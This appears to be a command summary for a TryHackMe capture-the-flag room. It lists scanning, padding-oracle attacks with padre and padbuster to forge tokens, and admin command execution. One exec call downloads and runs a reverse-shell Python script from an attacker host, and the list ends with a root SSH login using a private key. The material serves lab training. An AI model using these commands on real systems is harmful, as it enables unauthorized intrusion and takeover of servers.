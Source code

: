 # TryHackMe-New York Flankees

**Scope:**

- Escape for Docker Container
- ORACLE AES/CBC/PKCS
- Padding Oracle Attack

**Keywords:**

- Admin Panel Access
- ORACLE AES/CBC/PKCS Analysis
- Padding Oracle Attack
- padre-linux-amd64
- padbuster
- Command Execution
- Python Payload
- Escape for Docker Container
- deepce.sh
- Docker Enumeration
- SSH Connection with ID PUB

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -F -Pn $target_ip`
- `curl -iLX GET http://newyorkflankess.thm:8080`
- `curl -iLX GET 'http://newyorkflankess.thm:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'`
- `chmod +x padre-linux-amd64`
- `./padre-linux-amd64 -p 64 -err "Decryption error" -e lhex -u 'http://newyorkflankess.thm:8080/api/debug/$' '39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'`
- `padbuster  http://newyorkflankess.thm:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 1`
- `curl -iL -X $'GET' $'http://newyorkflankess.thm:8080/api/login?username=stefan1197&password=ebb2B76%4062%23f%3F%3F7cA6B76%406%21%4062%23f6dacd2599'`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=id'`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=python3%20-v'`
- `python3 -m http.server 8000`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=curl%20http://10.2.37.37:8000/reversepython.py%20-o%20/tmp/reversepython.py'`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=chmod%20+x%20/tmp/reversepython.py'`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=python3%20/tmp/reversepython.py'`
- `cat /root/.ssh/id_ed25519.pub`
- `ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@newyorkflankess.thm -p 22`
